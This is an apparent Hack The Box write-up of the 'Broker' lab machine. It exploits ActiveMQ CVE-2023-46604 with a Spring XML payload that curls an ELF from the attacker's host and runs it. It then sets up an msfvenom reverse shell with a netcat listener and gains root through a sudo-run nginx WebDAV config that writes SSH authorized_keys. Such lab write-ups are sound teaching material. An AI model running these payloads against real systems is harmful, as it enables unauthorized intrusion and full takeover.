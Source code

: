 ```yaml
---
title: 'Broker - HTB - WriteUp'
date: 2024-02-03 18:30:45 +0100
categories: [Cybersecurity, HTB]
tags: [HTB, machine]
pin: true
math: true
mermaid: true
image:
  path: ../assets/img/htb-broker/cover.png
  alt: .
---
```


Broker is an easy difficulty `Linux` machine hosting a version of `Apache ActiveMQ`. Enumerating the version of `Apache ActiveMQ` shows that it is vulnerable to `Unauthenticated Remote Code Execution`, which is leveraged to gain user access on the target. Post-exploitation enumeration reveals that the system has a `sudo` misconfiguration allowing the `activemq` user to execute `sudo /usr/sbin/nginx`, which is similar to the recent `Zimbra` disclosure and is leveraged to gain `root` access.


![Alt text](../assets/img/htb-broker/main-data.png)

If we access this ip, we find that it has an auth basic, trying easy passwords I realize that it is 'admin':'admin', once inside I look at what information it contains but I do not get anything relevant, so I go to the terminal.

I want to know what that server has up, so I run it:

```bash
 ┌─[✗]─[saf@parrot]─[~/exploits]
└──╼ $nmap -sC -sV 10.10.11.243
...
...
 Nmap scan report for 10.10.11.243
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
1234/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-ls: Volume /
|   maxfiles limit reached (10)
| SIZE    TIME               FILENAME
| -       06-Nov-2023 01:10  bin/
| -       06-Nov-2023 01:10  bin/X11/
| 963     17-Feb-2020 14:11  bin/NF
| 129576  27-Oct-2023 11:38  bin/VGAuthService
| 51632   07-Feb-2022 16:03  bin/%5B
| 35344   19-Oct-2022 14:52  bin/aa-enabled
| 35344   19-Oct-2022 14:52  bin/aa-exec
| 31248   19-Oct-2022 14:52  bin/aa-features-abi
| 14478   04-May-2023 11:14  bin/add-apt-repository
| 14712   21-Feb-2022 01:49  bin/addpart
|_
|_http-title: Index of /
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

> I look for the default port of ActiveMQ ( 61616 ), and it is up.

```bash

┌─[✗]─[saf@parrot]─[~/exploits]
└──╼ $nmap -p 61616 -sC -sV 10.10.11.243
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-04 02:59 CET
Nmap scan report for 10.10.11.243
Host is up (0.12s latency).

PORT      STATE SERVICE  VERSION
61616/tcp open  apachemq ActiveMQ OpenWire transport
| fingerprint-strings: 
|   NULL: 
|     ActiveMQ
|     TcpNoDelayEnabled
|     SizePrefixDisabled
|     CacheSize
|     ProviderName 
|     ActiveMQ
|     StackTraceEnabled
|     PlatformDetails 
|     Java
|     CacheEnabled
|     TightEncodingEnabled
|     MaxFrameSize
|     MaxInactivityDuration
|     MaxInactivityDurationInitalDelay
|     ProviderVersion 
|_    5.15.15

```
Active MQ on version 5.15 has vulnerability ( https://nvd.nist.gov/vuln/detail/CVE-2023-46604 )
And i found that: https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ

So with this exploit de main idea is get a type of exe and make a reverse shell with us.

```xml
    <?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
        xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="
        http://www.springframework.org/schema/beans
    http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg>
                <list>
                    <value>sh</value>
                    <value>-c</value>
                    <!-- The command below downloads the file and saves it as test.elf -->
                    <value>curl -s -o test.elf http://10.10.14.227:8001/test.elf; chmod +x
                    ./test.elf; ./test.elf</value>
                </list>
            </constructor-arg>
        </bean>
    </beans>

```


> Term 1
> LHOST (My local ip: 10.10.14.227)
> LPORT (A PORT FORT NETCAT on my case 4444)

```bash 

curl https://github.com/SaumyajeetDas/CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ/archive/refs/heads/main.zip

unzip main.zip

cd CVE-2023-46604-RCE-Reverse-Shell-Apache-ActiveMQ-main

msfvenom -p linux/x64/shell_reverse_tcp LHOST={Your_Listener_IP/Host} LPORT={Your_Listener_Port} -f elf -o test.elf


```



> Term 2

```bash
python3 -m http.server 8001
```

> Term 3

```bash
nc -lvvp 4444

```

Now in the term 1 run:

```bash
    go run main.go -i 10.10.11.243 -p 61616 -u http://10.10.14.227:8001/poc-linux.xml
```

![Alt text](../assets/img/htb-broker/gorun.png)

And in the terminal 3, you will have a reverse shell so u can run any command.

>The user flag can be found at **home/activemq/user.txt** .
{: .prompt-info }


In order not to have an escalation of privialage, we can choose either way

Oone option is to use [nginx dav module](https://nginx.org/en/docs/http/ngx_http_dav_module.html).

The main idea is to store our public key in authorized_keys for root by creating a malicious nginx.

```nginx
    user root;
    worker_processes 4;
    pid /tmp/nginx.pid;
    events {
        worker_connections 768;
    }
    http {
        server {
            listen 1337;
            root /;
            autoindex on;
            dav_methods PUT;
        }
    }
```

The key parts are the following:
- user root : The worker processes will be run by root , meaning when we eventually upload
a file, it will also be owned by root . 
- root / : The document root will be topmost directory of the filesystem.
- dav_methods PUT : We enable the WebDAV HTTP extension with the PUT method, which
allows clients to upload files.


```bash
echo 'user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
  worker_connections 768;
}
http {
  server {
    listen 1337;
    root /;
    autoindex on;
    dav_methods PUT;
  }
}' > /tmp/bad.conf
```

and we can check that if is up:

```bash
    activemq@broker:/tmp$ ss -tlpn
    State Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
    LISTEN 0 511 0.0.0.0:80 0.0.0.0:*
    LISTEN 0 4096 127.0.0.53%lo:53 0.0.0.0:*
    LISTEN 0 128 0.0.0.0:22 0.0.0.0:*
    LISTEN 0 511 0.0.0.0:1337 0.0.0.0:*
    
```

We generate a key pair:

```bash
activemq@broker:/tmp$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/activemq/.ssh/id_rsa): ./root
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in ./root
Your public key has been saved in ./root.pub
The key fingerprint is:
SHA256:ooCAL0h8Ox5bXucm2zutWwSXzRmSEl8h9YNzAWr3i6E activemq@broker
The key's randomart image is:
+---[RSA 3072]----+
| ..oo*o. |
|o ...O = .|
|oo . ..* B + |
|+o. . + . + .|
|+ o+ ...S. . . . |
| ...*...o . . o .|

```

And we upload the public key to the top inside root:

```bash
    curl -X PUT localhost:1337/root/.ssh/authorized_keys -d "$(cat root.pub)"
```

we can check it in the web browser:

![Alt text](../assets/img/htb-broker/authorized.png)

>From the web, since we have access to the root data, we could already find the flag
{: .prompt-info }

We can connect via ssh:

```bash
activemq@broker:/tmp$ ssh -i root root@localhost
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-88-generic x86_64)
```

>The root flag can be found at /root/root.txt .
{: .prompt-info }



